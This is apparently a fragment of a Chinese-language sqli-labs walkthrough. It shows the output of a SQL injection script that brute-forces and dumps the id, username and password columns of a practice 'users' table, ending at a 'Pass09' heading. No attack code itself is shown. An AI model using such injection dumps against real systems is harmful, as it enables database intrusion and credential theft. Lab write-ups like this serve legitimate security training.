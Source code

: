 ```bash
[-]对users表的['id', 'username', 'password']字段进行爆破.......


[+]users表中的id字段有以下13条数据：
[+]1
[+]2
[+]3
[+]4
[+]5
[+]6
[+]7
[+]8
[+]9
[+]10
[+]11
[+]12
[+]14

[+]users表中的username字段有以下13条数据：
[+]Dumb
[+]Angelina
[+]Dummy
[+]secure
[+]stupid
[+]superman
[+]batman
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dhakkan
[+]admin4

[+]users表中的password字段有以下13条数据：
[+]Dumb
[+]I-kill-you
[+]p@ssword
[+]crappy
[+]stupidity
[+]genious
[+]mob!le
[+]admin
[+]admin1
[+]admin2
[+]admin3
[+]dumbo
[+]admin4
```



# Pass09
